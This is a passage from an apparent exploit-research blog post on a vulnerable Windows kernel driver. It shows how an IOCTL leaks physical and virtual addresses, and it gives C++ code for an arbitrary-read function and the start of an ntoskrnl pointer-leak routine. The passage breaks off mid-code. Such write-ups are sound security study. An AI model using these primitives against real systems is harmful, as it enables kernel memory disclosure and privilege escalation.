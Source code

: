 This seems consistent with the method that follows which verifies that the returned value corresponds to a physical address with `MmGetPhysicalAddress`.

![Oops...](../assets/img/alloc-contiguous-mem-pdfwkrnl.png)

After which the Physical address is returned in the input buffer as the first value, while the virtual address block is returned as the second value. In theory so long as both routines succeed, I'd be leaking a memory address I could perform an arbitrary read from for any `ntoskrnl` pointers that could be useful.

Time to construct some code to try and accomplish just that. I started by modifying the arbitrary read function to read one QWORD at a time as this was more stable than more nested loops to parse the returned data.

```c++
// Dropped amount argument, set to always 1 - return type now ULONGLONG
ULONGLONG arbitrary_read(HANDLE device_handle, ULONGLONG address) {
    int amount = 1;
    ...
    // Always returns first value
    ULONGLONG* out = (ULONGLONG*)(ULONGLONG)output_buff;
    return *(out+0);
}
```

I then started working on the code to try and leak pointers, knowing that the `MmSystemRangeStart` for `ntoskrnl` is `0xffff8000'00000000` I decided I would iterate over the returned address block and look for values pointing to any usable structures or addresses inside ntoskrnl.

```c++
typedef struct {
    ULONGLONG address0;
    ULONGLONG address1;
    ULONGLONG address2;
    ULONGLONG address3;
    ULONGLONG address4;
    ULONGLONG address5;
} LEAK_BUFFER;

#define LEAK_TARGET_IOCTL_CODE  0x80002010

ULONGLONG leak(HANDLE device_handle) {
    DWORD bytes_returned;
    LEAK_BUFFER input_buff;

    for (int i = 0; i < 4096; i++) {
        // Necessary for randomized address for use by driver routine
        LPVOID output_buff = VirtualAlloc(
            NULL,
            0x38,
            MEM_COMMIT | MEM_RESERVE,
            PAGE_READWRITE
        );
        input_buff = {
```
